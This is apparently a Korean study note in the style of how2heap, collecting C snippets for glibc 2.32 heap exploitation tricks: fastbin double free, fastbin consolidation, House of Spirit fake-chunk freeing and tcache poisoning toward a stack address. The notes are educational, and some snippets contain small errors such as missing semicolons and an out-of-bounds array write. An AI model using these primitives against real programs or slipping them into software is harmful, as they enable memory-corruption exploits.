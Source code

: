 # 😎 How2heap (glibc 2.32)
> 기억해둘만한 `heap trick`들 정리

# Catalog
- [😎 How2heap (glibc 2.32)](#-how2heap-glibc-232)
- [Catalog](#catalog)
  - [Fastbin dup](#fastbin-dup)
  - [Fastbin dup consolidate](#fastbin-dup-consolidate)
  - [House of spirit](#house-of-spirit)
  - [Tcache poisoning](#tcache-poisoning)


## Fastbin dup
```c
	void *ptrs[7];
	for (int i=0; i<8; i++) {
		ptrs[i] = malloc(8);
	}
	for (int i=0; i<7; i++) {
		free(ptrs[i]);
	}
	int *a = calloc(1, 8);
	int *b = calloc(1, 8);

    free(a);
    free(b);
    free(a);
```

## Fastbin dup consolidate
```c
	void *ptr[7];

	for(int i = 0; i < 7; i++)
		ptr[i] = malloc(0x40);
	for(int i = 0; i < 7; i++)
		free(ptr[i]);

	void* p1 = calloc(1,0x40);

    free(p1);

    void* p3 = malloc(0x400); // consolidate

    free(p1);

    void* p4 = malloc(0x400);
```

## House of spirit
```c
	void *chunks[7];
	for(int i=0; i<7; i++) {
		chunks[i] = malloc(0x30);
	}
	for(int i=0; i<7; i++) {
		free(chunks[i]);
	}
    long fake_chunks[10] __attribute__ ((aligned (0x10)))
    
    fake_chunks[1] = 0x40;

    fake_chunks[9] = 0x1234;

    void* victim = &fake_chunks[1];
    
    free(victim);
```

## Tcache poisoning
```c
    size_t stack_ver = 0

	intptr_t *a = malloc(128);
	intptr_t *b = malloc(128);

    free(a);
    free(b);

    b[0] = (intptr_t)&stack_ver

    malloc(128);
    malloc(128);
```